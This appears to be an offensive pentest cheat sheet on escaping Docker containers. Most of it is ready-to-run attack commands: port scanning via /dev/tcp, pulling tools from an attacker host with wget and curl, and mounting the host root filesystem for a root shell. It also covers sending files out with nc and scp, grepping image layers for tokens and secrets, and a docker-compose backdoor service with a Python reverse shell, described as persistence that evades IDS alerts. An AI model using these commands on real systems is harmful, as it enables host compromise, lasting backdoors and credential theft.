 ```yaml
---
title: Docker Escape
description: Docker escape refers to a security vulnerability that could potentially allow an attacker to break out of a Docker container and gain access to the host system or other containers running on the same host.
tags:
    - Container
    - Privilege Escalation
refs:
    - https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
    - https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25
date: 2023-04-11
draft: false
---
```


## Investigation

If we are in the docker container, we first need to investigate basic information about the container.

```bash
# Network
ip addr
netstat -punta
ss -ltu
cat /etc/hosts

# Port scan another host
nmap 172.17.0.1
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done

# History
cat /root/.bash_history
cat /home/<username>/.bash_history

# Interesting Directories
ls -al /etc
ls -al /opt
ls -al /srv
ls -al /var/www

# SSH
ssh <user>@<another_host>

# Check if docker command is available.
# If not, find the command in the container.
docker -h
find / -name "docker" 2>/dev/null

# Container capabilities
capsh --print
```

### Access Another Host

If we found another host but cannot access it by restrictions, we need to port forward.  
Please see [details](/exploit/network/port-forwarding/port-forwarding-with-chisel) for port fowarding.

### Import Required Binary from Local Machine

The container generally has few command that we want to use to exploit, so we need to import manually the command binaries if we need.  
Below are examples to transfer arbitrary binary into the docker container.

```bash
wget http://<local-ip>:8000/socat

curl <local-ip>:8000/scp -o socat
```

<br />

## Run Vulnerable Docker Image

According to [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising), we can escape a docker container with the vulnerable image.  
Execute the following command in the target machine where a docker container is running..

```sh
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cd /mnt/
```

<br />

## Download Interesting Files

```bash
# In local machine
nc -lp 4444 > example.txt

# In remote machine
nc <local-ip> 4444 < example.txt
```

Also we can use “scp” under the condition that the local machine opens SSH server.

```bash
# In local machine
sudo systemctl start ssh

# In remote machine
scp ./example.txt <username>@<local-ip>:/home/<username>/example.txt
```

<br />

## Run Existing Docker Image

### 1. Check if current user belongs to "docker" group

```sh
groups
```

### 2. List Docker Images

```sh
docker images
```

### 3. Start Container and Get Shell

If we found Docker images running, we can use it to get a root shell
Replace **“example”** with the docker image you found.

```sh
# -v: Mount the host directory ('/') to the '/mnt' directory in the container.
# --rm: Automatically remove the container when it exits.
# -it: Interective and TTY
# chroot /mnt sh: Change the root directory of the current process to the '/mnt' directory, then execute 'sh' command to get a shell as root.
docker run -v /:/mnt --rm -it example chroot /mnt sh
```

Alternatively we can use following commands.

```sh
# --entrypoint=/bin/bash: Override the default entrypoint to '/bin/bash', which means that when the container starts, it will launch a bash shell.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ <image>:<tag>
# e.g.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ example:master
```

After that, you can investigate sensitive information in the **`/mnt/`** folders.

<br />

## Docker Socket Escape

Reference: [https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)

<br />

## Establish Persistence After PrivEsc

After that you invaded the docker container, you might be able to make it persistence while evading the IDS alerts by creating a docker compose file and abusing the entrypoint option to grant you a reverse shell.

Create a ~/docker-compose.yaml in the container.

You need to replace the `<image>`, `<local-ip>`, `<local-ip>` with your environment.

```yml
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: <image>
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<local-ip>",<local-ip>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Then start listener in your local machine.

```sh
nc -lvnp 4444
```

Now run the docker compose in remote machine. You should gain a shell.

```sh
docker-compose run
```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

### 1. Run the Docker Container

- **Retrieve a Container Image**

    ```sh
    docker pull public.ecr.aws/<registry-alias>/<repository>:latest
    ```

- **Check if It was Pulled**

    ```sh
    docker images
    ```

- **Run the Container and Interect with It**

    ```sh
    docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
    ```

### 2. Get Sensitive Information in the Container

You may be able to get the interesting data like **api_key**.

```sh
printenv
```

### 3. Get Sensitive Information in Local Machine

- **Check the Container Config and Retrieve Sensitive Information**

    Process the following flows in your local machine.

    ```sh
    mkdir example
    cd example/
    docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
    tar -xf example.tar

    # Config files
    cat manifest.json | jq
    cat f9ab.......json | jq

    # Also config file in each directory
    cd 2246f........../
    tar -xvf layer.tar

    # Get sensitive information
    grep -e 'token' -e 'secret' */*
    ```

<br />

